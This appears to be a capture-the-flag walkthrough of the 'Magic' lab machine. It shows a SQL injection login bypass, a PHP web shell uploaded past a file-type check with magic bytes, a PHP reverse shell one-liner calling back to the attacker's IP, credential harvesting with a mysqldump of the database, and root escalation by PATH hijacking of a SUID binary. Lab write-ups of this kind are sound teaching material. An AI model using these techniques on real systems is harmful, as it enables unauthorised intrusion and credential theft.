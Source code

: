 # Magic
## User
First I did a standard Nmap scan:
```
$ nmap -A -sV 10.10.10.185
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 16:21 CEST
Nmap scan report for 10.10.10.185
Host is up (0.032s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```
We can see there are only 2 open Ports. Since SSH is not interesting at the moment as we don't have any login data we first take a look at the website.
There you can find a few images and a login panel. I decided to try a very simple SQL Injection.
```
Username: admin
Password: ' OR 1=1;--
```
This did not seem to work so I looked at the network traffic and found that the spaces get sanitized out before the request is sent.
```
username=admin&password='OR1=1;--
```
This obviously isn't valid SQL so I just modified  the request and sent it again.
```
username=admin&password=' OR 1=1;--
```
This unlocks a new page where you can select a file and upload it to the server. After uploading an image I could now see it on http://10.10.10.185/index.php or http://10.10.10.185/images/uploads/[FILENAME]. So I tried uploading a PHP-Shell to the Server, but it returns an error.
```
Sorry, only JPG, JPEG & PNG files are allowed.
```
After renaming the PHP-Shell from `shell.php` to `shell.php.png` I got another error.
```
What are you trying to do there?
```
This means the uploaded file not only gets checked for the correct file extension but also the content of the file itself. Fortunately it was possible to trick this check by just adding some magic bytes at the beginning of the shell file.
When I now open http://10.10.10.185/images/uploads/shell.php.png I can execute commands on the server.
```
$ whoami
www-data
```
To upgrade to an interactive shell I first opened a netcat shell and then upgraded it with python.

Attacker: `$ nc -nlvp 1234`

Webshell: `$ php -r '$sock=fsockopen("[MY_IP]",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

Upgrading Shell: `$ python3 -c 'import pty; pty.spawn("/bin/bash")'`

After looking around a bit on the server I found `db.php` which contains the login data for the mysql database.
```
$ cat /var/www/Magic/db.php5:
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```
Since `mysqldump` is installed on this system we can just use that to dump the entire database.
```
$ mysqldump -u theseus -p Magic
$ Password: iamkingtheseus
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```
Using this password I can now login as `theseus` and get the `user.txt` flag.
```
$ su theseus
$ Password: Th3s3usW4sK1ng

$ whoami
theseus
```
## Root
I used [LinEnum.sh](https://github.com/rebootuser/LinEnum) to enumerate the Server and found that the binary `sysinfo` has the SUID bit set. That means we can run it with root permissions. 

To better understand how `sysinfo` works I ran [pspy32](https://github.com/DominicBreuker/pspy) on the server and executed `sysinfo`. 
```
CMD: UID=0    PID=3208   | sysinfo 
CMD: UID=0    PID=3210   | lshw -short 
CMD: UID=0    PID=3214   | sh -c fdisk -l 
CMD: UID=0    PID=3215   | fdisk -l 
CMD: UID=0    PID=3218   | sh -c free -h 
```
Turns out that it uses the `lshw` and `fdisk` binaries, but we can't manipulate them directly as we don't have permission to do so. But since sysinfo doesn't use absolute paths for the binaries I can just make my own `lshw` where ever I want. 

First I added a new folder to the front of my `PATH` so Linux will check there first when looking for binaries and then created the `lshw` file in that folder with the code I want the root to execute.
```
$ PATH=/tmp:$PATH
$ export PATH

$ echo "cat /root/root.txt" > /tmp/lshw
$ chmod +x /tmp/lshw
```
When I now execute `sysinfo` I get the flag.
